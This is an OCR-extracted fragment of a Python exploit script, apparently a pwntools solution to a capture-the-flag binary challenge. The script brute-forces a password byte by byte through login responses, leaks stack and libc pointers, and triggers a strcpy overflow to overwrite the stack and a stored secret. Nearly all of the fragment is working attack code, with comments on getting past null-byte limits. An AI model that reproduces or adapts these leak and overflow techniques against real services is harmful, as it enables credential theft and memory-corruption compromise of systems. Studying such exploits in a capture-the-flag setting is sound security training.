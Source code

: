 ```python
    invalid_bytes = [0, 10]
    while True:
        for num in range(256):
            log.info(f'Trying: {num}')
            if num in invalid_bytes:
                continue
            buf = leaked_bytes + num.to_bytes(1, 'little')
            login_data = login(p, buf + b'\x00')   
            if b'Login Success !' in login_data:
                log.info(f'Found new byte: {hex(num)}')
                logout(p)
                leaked_bytes = buf
                if len(leaked_bytes) == n + len(prefix_bytes):
                    return leaked_bytes
                break

def leak_password(p):
    log.info(f'[leak_password] start')
    password_leak = leak(p, PASSWORD_LENGTH, prefix_bytes = b'')
    return password_leak

def leak_pointer(p, prefix_bytes):
    # We expect 6 bytes of leak, not 8 
    leak_size = SIZEOF_PTR - 2
    leaked_bytes = leak(p, leak_size, prefix_bytes)
    leaked_bytes = leaked_bytes[-leak_size:].ljust(SIZEOF_PTR, b'\x00')
    leaked_bytes = u64(leaked_bytes)
    return leaked_bytes

def fill_input(p, buf):
    p.send(buf)
    p.recvuntil(b'Invalid choice')
    p.recvuntil(b'>> ')
    
def stack_overwrite(p, buf):
    # Set login buffer
    login_buf = b'\x00' + buf[1:]
    login_buf = login_buf.ljust(0x7f, b'\x00')
    login(p, login_buf)
    # Trigger strcpy vuln
    copy_buf = buf[0].to_bytes(1, 'little')
    copy(p, copy_buf)
    logout(p)

def leak_stack(p, password):
    stack_leak = leak_pointer(p, prefix_bytes=password)
    return stack_leak

def leak_libc(p):
    # The problem is that the high bytes of the PIE leak contains 2 '\x00's.
    # While we can overwrite them using the 'copy' vuln, the strcpy would also insert a '\x00' into our libc leak..
    # Hence, the strncmp read would be stopped there. 
    # prefix_bytes += p64(pie_leak)
    # libc_leak = leak_pointer(p, prefix_bytes)
    # log.info(f'libc: {hex(libc_leak)}')
    # Copies libc leak as the second secret password qword, using the vuln. 
    # Utilizes the uninitialized content within 'src'.
    # This overwrite the original secret password.
    login(p, b'\x00' + b'B' * 0x47)
    copy(p, b'B' * 1)
    logout(p)
    prefix_bytes = b'B' * 8  # first password qword
```